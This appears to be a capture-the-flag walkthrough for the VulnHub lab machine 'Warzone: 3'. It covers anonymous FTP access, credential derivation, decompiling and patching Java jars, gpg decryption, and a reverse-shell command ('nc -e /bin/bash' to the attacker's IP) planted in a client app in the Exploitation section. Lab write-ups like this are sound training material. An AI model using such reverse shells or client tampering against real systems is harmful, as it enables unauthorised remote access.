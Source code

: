# Warzone: 3

[Machine](https://www.vulnhub.com/entry/warzone-3-exogen,606/ "https://www.vulnhub.com/entry/warzone-3-exogen,606/")

## Reconnaissance

### nmap

* 21 - ftp
* 22 - ssh
* 4444 - kerberos...?

### ftp

Anonymous access is allowed.

* note.txt
* alienclient.jar

#### Credentials

from note.txt we got:

username:	alienum@exogenesis
password:	sha256(username)

To get a password execute next in python3 interpreter:
```
import hashlib

hashlib.sha256(b'alienum@exogenesis').hexdigest()
```

Also, we have a client app:

![app](screenshots/app.png)

### kerberos

I don't know what to gather from it. Moreover, I don't want to use metasploit.

## Threat modeling

Definitely, here the attack vector is `alienclient.jar` file which we can decompile and use with the right credential.

## Vulnerability analysis

Again, here is information leakage through misconfiguration of ftp. It gives us an ability to modify client-side application. That leads to remote code execution.

## Exploitation

In the source code you can see next part:

![source](screenshots/source.png)

After:
```
list.setCmd("nc -e /bin/bash 192.168.88.226 4444");
```

Compile it with `javac -d . source.java`. And we got a shell as "exomorph" user.

## Post exploitation

### Explore

An user "exomorph" has in his home directory 'encryptor' and encrypted file.But I can't decompile the program from shell. So I copied binary to my machine with `cat wrz3encryptor.jar | base64`.

### Decryption of the aliens

Decompile the jar and create a new package, change mode to `Cipher.DECRYPT_MODE`. Got `aliens.txt`. 

### ssh

While I was in exomorph shell, I did `ls` in home dir and saw an user `anunnaki`. There are 3 passwords for this user. Got the anunnaki shell.

### gpg

"GnuPrivacy Guard (GPG) allows you to securely encrypt files so that only the intended recipient can decrypt them."

Decrypt the file with gpg:
```
gpg --decrypt secpasskeeper.jar.gpg > /tmp/secpasskeeper.jar
```

### secpasskeeper

Okay, again you need just decompile jar and delete a few lines. My source file is [here](post/secpasskeeper/src/Main.java).


## Sources

### gpg

[gpg](https://www.howtogeek.com/427982/how-to-encrypt-and-decrypt-files-with-gpg-on-linux/ "https://www.howtogeek.com/427982/how-to-encrypt-and-decrypt-files-with-gpg-on-linux/")



